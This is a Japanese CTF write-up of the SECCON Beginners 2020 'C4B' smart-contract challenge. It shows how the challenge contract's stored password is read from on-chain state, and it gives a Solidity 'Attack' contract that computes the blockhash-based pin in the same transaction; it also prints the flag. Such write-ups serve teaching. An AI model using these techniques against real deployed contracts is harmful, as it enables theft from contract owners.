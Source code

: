 # SECCON Beginners CTF 2020 C4B writeup

## 問題
Are you smart?

[http://c4b.quals.beginners.seccon.jp/](http://c4b.quals.beginners.seccon.jp/)


## 解法

スマートコントラクト問は先週のSharky CTFで初めて触ったので何をすれば良いのかほとんど分からなかったが、そのwriteupを参考にしていたらなんとなく分かった。

この問題は大まかに、

1. contractを作る。
2. passwordとpinを特定する。
3. checkに特定した値を渡してsuccessをtrueにする。

という流れになっている。

まずcontractを作る。リンク先のDeployを押すだけでいいが、MetaMaskは事前に入れておく必要がある。

次にpasswordとpinを特定する。pinはblock.numberつまりblock heightでありこれは簡単に取得できるのでOK。  
passwordはcontractを作成したときのトランザクションに書いてあるはずだが、どのような形式で与えられているのか分からなかったのでソースコードを使って分かりやすいパスワードでdeployして実験した。ここでは `0xdeadbeef01234567` とした。EtherscanのTransaction Details→State Changesから確認してみると、以下のような値になっていることが確認できる。

![password_test](./img/01.png)

leading zeroを除いた先頭8バイト分がパスワードであることが分かった。  


これを踏まえて最初に作ったcontractのパスワードを確認する。
ここでは `0x93e4462a250e0b95` であることが分かる。
![password](./img/02.png)

後はpasswordとpinをcheckに渡してやればいいが、pinが頻繁に変わってしまうのでsolidityで攻撃用のcontractを作った。


```solidity
pragma solidity >= 0.5.0 < 0.7.0;

contract C4B {

  address public player;
  bytes8 password;
  bool public success;

  event CheckPassed(address indexed player);

  constructor(address _player, bytes8 _password) public {
    player = _player;
    password = _password;
    success = false;
  }

  function check(bytes8 _password, uint256 pin) public returns(bool) {
    uint256 hash = uint256(blockhash(block.number - 1));
    if (hash%1000000 == pin) {
      if (keccak256(abi.encode(password)) == keccak256(abi.encode(_password))) {
        success = true;
      }
    }
    emit CheckPassed(player);
    return success;
  }
}

contract Attack{
  C4B public target;
  constructor(address _target) public {
    target = C4B(_target);
  }
  function send(bytes8 password) public {
    uint256 hash = uint256(blockhash(block.number-1))%1000000;
    target.check(password, hash);
  }
}
```

これをRemix(スマートコントラクトのIDE)からDeployする。
![deploy\_exploit](./img/03.png)



先程入手したパスワードを入力してsendする。
![send](./img/04.png)



successがtrueになったのを確認後に元のページでSubmitすればFlagが手に入る。
![flag](./img/05.png)



Flag: `ctf4b{c4b_me4ns_c0ntract4beg1nn3rs}`




